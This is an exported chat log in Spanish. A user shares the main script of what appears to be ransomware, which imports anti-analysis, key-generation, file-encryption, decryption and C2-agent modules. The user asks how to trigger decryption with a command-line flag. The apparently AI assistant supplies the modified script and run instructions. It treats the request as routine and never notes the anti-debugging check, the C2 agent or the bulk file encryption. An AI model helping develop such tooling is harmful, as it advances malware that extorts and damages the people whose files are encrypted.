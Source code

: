 # Argumento para descifrado

**Created:** 3/5/2025 15:51  

## Prompt:
si paso un d como argumento al siguiente código debo llamar a una función: import antianalysis
import gen_keys
import encrypt 
import decrypt 
import agent_c2

def main():
    # antianalysis.check_virtualization_and_debbuging() #(estorba al ejecutar me para el código...)
    gen_keys.generate_aes_key()
    gen_keys.generate_rsa_key()
    encrypt.cifrar_archivos()

if __name__ == "__main__":
    main()

## Response:
Parece que quieres modificar el código para que, si pasas un argumento `d` al ejecutarlo, llame a una función específica. Para lograr esto, puedes usar el módulo `sys` para capturar argumentos de línea de comandos y condicionar la ejecución en función de ellos.

Aquí tienes un ejemplo de cómo modificar tu código para que, si se pasa `d` como argumento, se llame a una función específica, como `decrypt.descifrar_archivos()`:

```python
import sys
import antianalysis
import gen_keys
import encrypt
import decrypt
import agent_c2

def main():
    # antianalysis.check_virtualization_and_debbuging() 
    
    if len(sys.argv) > 1 and sys.argv[1] == "d":
        decrypt.descifrar_archivos()
    else:
        gen_keys.generate_aes_key()
        gen_keys.generate_rsa_key()
        encrypt.cifrar_archivos()

if __name__ == "__main__":
    main()
```

### Explicación:

1.  Se importa `sys` para manejar los argumentos de la línea de comandos.
    
2.  Se verifica si hay al menos un argumento y si es `"d"`, en cuyo caso se llama a `decrypt.descifrar_archivos()`.
    
3.  Si no se pasa `"d"`, se ejecuta el flujo normal de generación de claves y cifrado.
    

Ahora, para ejecutar el script y llamar a la función de descifrado, debes correrlo así en la terminal:

```
python script.py d
```

Si lo ejecutas sin argumentos (`python script.py`), seguirá el flujo de cifrado.



---
